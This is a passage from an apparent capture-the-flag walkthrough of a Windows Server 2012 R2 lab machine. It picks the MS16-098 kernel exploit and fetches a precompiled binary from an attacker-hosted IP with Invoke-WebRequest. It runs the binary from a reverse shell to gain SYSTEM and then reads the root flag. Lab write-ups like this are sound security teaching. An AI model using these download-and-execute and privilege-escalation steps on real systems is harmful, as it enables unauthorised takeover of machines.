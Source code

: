 ```bash
Exploit: https://www.exploit-db.com/exploits/46156/   
 
Date: 20190108                
CVE: CVE-2019-0543   
KB: KB4480964
Title: Microsoft Windows Elevation of Privilege Vulnerability  
Affected product: Windows Server 2012 R2       
Impact: Elevation of Privilege         
Exploit: https://www.exploit-db.com/exploits/46156/
```

There are a few exploits that might work. So I opened up all the exploits. The exploit for MS16-098 seems to be the right one:

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/41020)

There is a precompiled binary of this exploit on github:

[](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)

I download a copy of the exploit and transferred it to the machine:

```powershell
Invoke-WebRequest -Uri "http://10.10.17.28/41020.exe" -OutFile 'C:\Users\kostas\Desktop\41020.exe'
```

I execute the file inside of the batch (cmd) reverse shell:

```powershell
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```

There is the root shell.

## Root Flag

---

With the shell as `nt authority\system`, I can get the root flag:

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
18/03/2017  03:14                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.896.715.264 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51**************************eeed
```
